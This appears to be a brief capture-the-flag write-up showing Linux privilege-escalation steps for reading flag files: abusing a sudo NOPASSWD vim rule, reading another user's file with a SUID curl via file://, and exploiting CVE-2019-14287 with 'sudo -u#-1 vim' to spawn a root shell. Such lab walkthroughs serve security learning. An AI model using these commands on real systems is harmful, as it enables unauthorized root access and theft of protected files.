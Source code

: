 #1

Need read file

> sudo -l
See NOPASSWD: /usr/bin/vim
> sudo -S -u super-server /usr/bin/vim
> :e ..
and read file


OR

We see that the curl utility has SUID bit installed, and the owner of this file is super-server. we use this and read the file

> curl file:///home/super-server/user.txt


#2

Need read file in ROOT directory

> sudo -l
User reborn may run the following commands on host:
    (ALL, !root) NOPASSWD: /usr/bin/vim

> sudo -V 

This configuration setting is vulnerable to executing the specified command on behalf of the superuser if SUDO is installed with a version less than 1.8.28 CVE-2019-14287

> sudo -u#-1 vim

> :!/bin/bash

> id
uid=0(root) gid=1001(reborn) groups=1001(reborn)

> cat /root/home/root.txt
